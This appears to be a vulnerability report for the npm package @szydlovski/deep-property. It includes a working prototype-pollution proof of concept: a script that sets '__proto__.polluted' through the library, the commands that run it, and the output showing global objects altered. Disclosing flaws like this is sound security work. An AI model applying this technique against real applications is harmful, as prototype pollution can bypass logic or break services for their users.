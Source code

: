 # Description

`@szydlovski/deep-property` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var deepProperty = require("@szydlovski/deep-property")
var obj = {}
console.log("Before : " + obj.polluted);
deepProperty.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + obj.polluted);
```


2. Execute the following commands in terminal:

```
npm i @szydlovski/deep-property # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
